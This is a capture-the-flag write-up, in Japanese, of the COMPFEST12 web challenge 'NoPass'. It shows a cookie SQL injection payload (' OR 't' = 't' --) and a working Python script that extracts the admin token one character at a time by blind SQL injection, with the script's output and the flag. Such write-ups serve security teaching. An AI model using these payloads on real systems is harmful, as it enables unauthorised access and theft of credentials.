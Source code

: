# NoPass:Web:961pts
Forgets your password! We've already invent secure login system. One account only can log on in one device. The flag is the token of admin.  
P.S: Choose unique username to avoid duplicate.  
128.199.157.172:28337  
Hint  
I think the token is saved in database  

# Solution
アクセスするとNoPass.htmlがある。  
LoginページではUsernameのみでログインできるようだ。  
ただし重複はブロックされるので、adminでのログインはできないようだ。  
abc0123でログインすると、Dashboard.htmlとFlag.htmlが表示されるがflagは無いようだ。  
cookieに以下のtokenが入っていた。  
```text
jv4hdNnATkfkHba1NIfl7PWq9tF2mQbY
```
これを以下に書き換える。  
```text
' OR 't' = 't' --
```
するとDashboard_admin.htmlとFlag_admin.htmlが表示されるがflagは無いようだ。  
ここでflagがadminのtokenだと気付く(問題文に書いてあった)。  
あとは以下のtoooooken.pyで人文字ずつ探せばよい。  
likeは大文字小文字の区別がないので困る。  
```python:toooooken.py
import requests

url = "http://128.199.157.172:28337/flag"

flag = "COMPFEST12{"
i = 12

while True:
	for j in "}[]0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_":
		cookie = {"token": "' OR username = 'admin' AND substr(token,{},1) ='{}' --".format(i,j)}
		response = requests.get(url=url, cookies=cookie)
		if "flag.txt" in response.text:
			break
	i += 1
	flag += j
	print(flag)
	if j == "}":
		break
```
実行すると以下のようにflagが得られた。  
```bash
$ python toooooken.py
COMPFEST12{e
COMPFEST12{eZ
COMPFEST12{eZs
COMPFEST12{eZsQ
COMPFEST12{eZsQL
COMPFEST12{eZsQLi
COMPFEST12{eZsQLi_
COMPFEST12{eZsQLi_4
COMPFEST12{eZsQLi_4s
COMPFEST12{eZsQLi_4s_
COMPFEST12{eZsQLi_4s_u
COMPFEST12{eZsQLi_4s_us
COMPFEST12{eZsQLi_4s_usU
COMPFEST12{eZsQLi_4s_usUa
COMPFEST12{eZsQLi_4s_usUaL
COMPFEST12{eZsQLi_4s_usUaL_
COMPFEST12{eZsQLi_4s_usUaL__
COMPFEST12{eZsQLi_4s_usUaL__2
COMPFEST12{eZsQLi_4s_usUaL__20
COMPFEST12{eZsQLi_4s_usUaL__203
COMPFEST12{eZsQLi_4s_usUaL__2033
COMPFEST12{eZsQLi_4s_usUaL__20334
COMPFEST12{eZsQLi_4s_usUaL__20334e
COMPFEST12{eZsQLi_4s_usUaL__20334ef
COMPFEST12{eZsQLi_4s_usUaL__20334eff
COMPFEST12{eZsQLi_4s_usUaL__20334eff}
```

## COMPFEST12{eZsQLi_4s_usUaL__20334eff}